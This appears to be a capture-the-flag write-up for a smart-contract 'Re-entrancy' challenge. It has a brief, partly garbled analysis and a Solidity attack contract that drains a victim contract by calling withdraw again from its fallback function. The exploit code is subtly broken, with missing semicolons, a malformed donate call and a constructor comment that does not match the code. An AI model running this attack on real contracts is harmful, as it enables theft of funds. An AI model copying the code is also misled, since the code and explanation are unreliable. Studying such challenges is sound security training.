 Challenge solved ✅

## Re-entrancy

### Challenge description

The goal of this level is for you to steal all the funds from the contract.

### Analysis

A quick read about Re-entrancy attack is all we need: [HackerNoon Article](https://hackernoon.com/hack-solidity-reentrancy-attack).

![Reentrancy method](images/6b9b88336f13d99f52296f5874086643de346fe2aa6dbd66098162a244b11b6c.png)  

So he is actually our balance after the call that's all we need !

### Exploit 

```js
interface Reentrance {

    function donate(address _to) external payable;
    function withdraw(uint amount) public;
}

contract EvilContract {
    Reentrance victimContract;
    address victimAddress;
    uint donatedValue;

    constructor(address _victimAddress) public payable {
        // Set our victim contract, fund the contract.
        victimContract = Reentrance(_victimAddress);
        victimAddress= _victimAddress
    }

    function attack(uint _donatedValue) public {
        victimContract.donate.value(address(this),{value:_donatedValue});
        victimContract.withdraw(_donatedValue);
        donatedValue=_donatedValue
    }

    function() public payable {
        // Receiver for funds withdrawn by the attack
            if(victimAddress.balance>= donatedValue )
            victimContract.withdraw(msg.value);
        }
}
```

